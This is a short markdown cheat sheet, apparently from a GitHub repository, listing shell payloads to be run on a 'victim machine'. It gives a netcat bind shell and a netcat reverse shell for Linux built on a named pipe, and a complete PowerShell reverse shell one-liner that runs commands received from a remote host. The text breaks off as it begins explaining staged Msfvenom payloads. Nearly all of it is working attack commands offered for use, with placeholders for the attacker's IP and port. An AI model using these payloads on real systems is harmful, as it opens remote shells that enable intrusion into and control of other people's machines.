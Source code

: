 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the "IP" & "Port"

# Msfvenom

1. **Staged** payloads are sent in two parts. The first part is called the stager
